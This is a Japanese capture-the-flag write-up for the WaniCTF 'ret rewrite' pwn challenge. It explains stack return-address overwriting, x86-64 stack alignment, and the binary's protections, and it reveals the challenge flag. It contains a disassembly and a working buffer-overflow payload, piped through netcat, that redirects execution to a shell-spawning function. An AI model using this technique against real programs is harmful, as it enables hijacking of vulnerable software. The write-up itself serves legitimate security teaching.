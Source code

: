 # ret rewrite [pwn]
## 問題文

```
nc ret.wanictf.org 9005
```
+ stackの仕組みを学びましょう。
+ 関数の戻りアドレスはstackに積まれます。
+ "congraturation"が出力されてもスタックのアライメントの問題でwin関数のアドレスから少しずらす必要がある場合があります。
+ `(echo -e "\x11\x11\x11\x11\x11\x11"; cat) | nc ret.wanictf.org 9005`
+ 念のためpwntoolsのサンプルプログラム「pwn05_sample.py」を載せておきました。

### 使用ツール例
+ cat
+ [netcat (nc)](https://github.com/wani-hackase/memo-setup-pwn-utils#netcat)
+ echo
+ [objdump](https://github.com/wani-hackase/memo-setup-pwn-utils#objdump)
+ [pwntools](https://github.com/wani-hackase/memo-setup-pwn-utils#pwntools)


### セキュリティ保護

+ *Partial RELocation ReadOnly (RELRO)*
+ *Stack Smash Protection (SSP)無効*
+ No eXecute bit(NX)有効
+ *Position Independent Executable (PIE)無効*


## FLAG
```
FLAG{1earning-how-return-address-w0rks-on-st4ck}
```
## 解法

スタック上の戻り番地をwin関数に書き換える問題です。

win関数は0x400837なので素直に0x400837に飛ばすと`congraturation!`は出力されるのですが、systemでシェルを起動するときにsegmentation faultで落ちます。
この原因は本来はwin関数がcallで呼ばれることで戻り番地がスタックに積まれるのにretで呼び出されることで戻り番地がスタックに積まれないことでスタックのアライメントが狂ってしまうことです。
これを避けるにはROPでretを一個挟むか、win関数の一番最初の`push rbp`を飛ばすかで行けます。

```
0000000000400837 <win>:
  400837:       55                      push   rbp
  400838:       48 89 e5                mov    rbp,rsp
  40083b:       48 8d 3d 92 02 00 00    lea    rdi,[rip+0x292]        # 400ad4 <_IO_stdin_used+0x4>
  400842:       e8 79 fe ff ff          call   4006c0 <puts@plt>
  400847:       48 8d 3d 96 02 00 00    lea    rdi,[rip+0x296]        # 400ae4 <_IO_stdin_used+0x14>
  40084e:       e8 ad fe ff ff          call   400700 <system@plt>
  400853:       bf 00 00 00 00          mov    edi,0x0
  400858:       e8 e3 fe ff ff          call   400740 <exit@plt>
```

ここでは`push rbp`を飛ばすことを選んだとして戻り番地に0x400838を放り込んで解く方法を載せておきます。
```
(echo -e "AAAAAAAAAAAAAAAAAAAAAA\x38\x08\x40\x00\x00\x00\x00"; cat) | nc ret.wanictf.org 9005
```

### 参考

- [[再掲]Pwnにおけるスタックのアライメント - Qiita](https://qiita.com/ssssssssok1/items/b8ffca6b68149812c335)